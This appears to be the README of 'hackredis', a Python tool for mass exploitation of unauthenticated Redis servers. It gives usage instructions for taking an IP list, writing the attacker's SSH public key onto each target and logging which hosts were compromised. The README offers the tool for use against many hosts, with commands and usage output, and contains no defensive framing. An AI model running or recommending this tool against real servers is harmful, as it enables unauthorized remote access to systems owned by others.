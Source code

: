 # hackredis
之前@Matt写了一个批量扫描redis未授权的[脚本](https://github.com/code-scan/rescan)。然后我根据[Redis未授权访问导致可远程获得服务器权限](http://www.freebuf.com/vuls/85021.html)写了一个批量获取的脚本。暂时还没写多线程，写的很烂，凑活用吧。

**安装依赖**
```
☁  ~ sudo easy_install redis
```

**使用**
```
☁  redis  python hackredis.py                                  
usage: hackredis.py [-h] [-l IPLIST] [-p PORT] [-r ID_RSAFILE] [-sp SSH_PORT]

For Example:
-----------------------------------------------------------------------------
python hackredis.py  -l ip.txt -p 6379 -r foo.txt -sp 22

optional arguments:
  -h, --help     show this help message and exit
  -l IPLIST      the hosts of target
  -p PORT        the redis default port
  -r ID_RSAFILE  the ssh id_rsa file you generate
  -sp SSH_PORT   the ssh port
```

首先需要ssh密钥:
```
☁  ~  ssh-keygen -t rsa
☁  ~  cp ~/.ssh/id_rsa.pub /tmp/foo.txt
```

之后将ip列表填入ip.txt，然后就可以跑了。
成功的将会输出到success.txt,执行成功但是ssh连接失败的会存储在unconnect.txt，操作失败的会存储在fail.txt
测试截图：

![Alt text](./1449803881546.png)
